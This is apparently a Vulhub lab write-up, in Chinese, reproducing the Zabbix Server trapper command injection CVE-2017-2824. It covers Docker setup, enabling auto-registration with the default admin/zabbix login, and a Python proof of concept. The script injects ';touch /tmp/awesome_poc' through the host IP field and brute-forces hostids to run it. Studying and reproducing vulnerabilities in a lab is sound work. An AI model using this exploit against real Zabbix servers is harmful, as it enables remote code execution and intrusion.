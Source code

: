 # Zabbix Server trapper命令注入漏洞 CVE-2017-2824

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。访问`http://your-ip:8080/index.php`，使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![image-20220302234333155](./images/202203022343242.png)

第三个标签页，创建一个Operation，type是“Add Host”：

![image-20220302234456751](./images/202203022344809.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/awesome_poc"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

查看到如下结果时，则说明命令执行成功：

![image-20220303152549893](./images/202203031525035.png)

进入server容器，可见`/tmp/awesome_poc`已成功创建：

![image-20220303151927792](./images/202203031519873.png)

